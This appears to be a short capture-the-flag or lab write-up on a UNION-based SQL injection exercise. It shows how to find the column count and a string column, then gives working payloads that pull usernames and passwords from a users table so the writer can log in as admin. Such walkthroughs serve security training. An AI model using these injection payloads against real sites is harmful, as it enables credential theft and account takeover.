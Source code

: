 Clicking one of the categories and appending `'` character to the url will cause an internal error and verify that it's vulnerable to sqli.

To detect the number of columns use union payload.

```
' UNION SELECT NULL --
' UNION SELECT NULL,NULL --     <- will work
```

But using 

```
' UNION SELECT username,password FROM users --
```
won't work. Because only one of them string. 

```
' UNION SELECT 'asd',NULL --    <- error
' UNION SELECT NULL,'asd' --    <- works
```

Using group concat doesn't work so when I looked up concatenation operator I found [this](https://www.geeksforgeeks.org/sql-concatenation-operator/)

New payload would be
```
' UNION SELECT NULL,username || '//' || password FROM users --
```

![image](./ss/UNION-retrieving-multiple-values-in-a-single-column1.png)

By logging into admin account we can complete the challenge. 
